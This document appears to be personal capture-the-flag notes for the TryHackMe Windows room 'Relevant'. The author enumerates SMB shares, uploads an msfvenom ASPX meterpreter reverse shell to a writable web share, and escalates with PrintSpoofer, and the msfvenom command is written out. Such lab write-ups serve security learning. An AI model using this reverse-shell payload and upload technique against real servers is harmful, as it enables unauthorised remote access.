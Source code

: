 # 23. Relevant 🧭
Names | Details
--------|-----
Source | tryhackme
Level | medium
Os | windows

**Notes :**
#categoty/windows 



## Gaining Access 😉
- connected to smbclient. reffer [[#Important commands 🔥]] 1
- got password.txt file. opened using `more ` command
- same file found in http://10.10.225.208:49663/nt4wrksv/password.txt
- this means we can upload file in http://10.10.225.208:49663/nt4wrksv and can be called with browser
- created a `aspx` reverse shell and uploaded rshell with `put` command in smbclient :reffer [[#Important commands 🔥]] 2



## Maintaining Access 🥷
- got Printspoofer.exe exploit from github
- executed


## Important commands 🔥
1. smbconnect
	```bash
	smbclient -L //ip
	smbclient ////ip//dir
	```
2. aspx revshell
	```bash
	msfvenom -p windows/meterpreter/reverse\_tcp LHOST=(IP Address) LPORT=(Your   Port) -f aspx >reverse.aspx
	```
## Post Exploitation ✴️
- User flag : /home/user
- Root flag : /root/root
## Tips 💡
- smb are more vulnerable


--------------------------------
**By Nibras Muhammed** 🤓🖥️






